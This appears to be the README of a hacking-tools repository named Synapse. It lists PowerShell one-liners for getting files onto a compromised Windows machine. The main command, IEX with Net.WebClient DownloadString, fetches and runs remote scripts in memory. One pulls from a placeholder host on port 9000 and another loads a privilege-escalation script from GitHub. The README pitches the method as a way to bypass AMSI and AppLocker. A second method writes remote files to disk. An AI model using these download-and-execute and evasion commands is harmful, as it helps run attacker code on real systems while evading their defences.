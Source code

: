 # Synapse

> Repo for hacking tools

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
> use it to via github

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/evilNeuron/Synapse/master/privesc/windows/PowerUpInvoke.ps1')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`

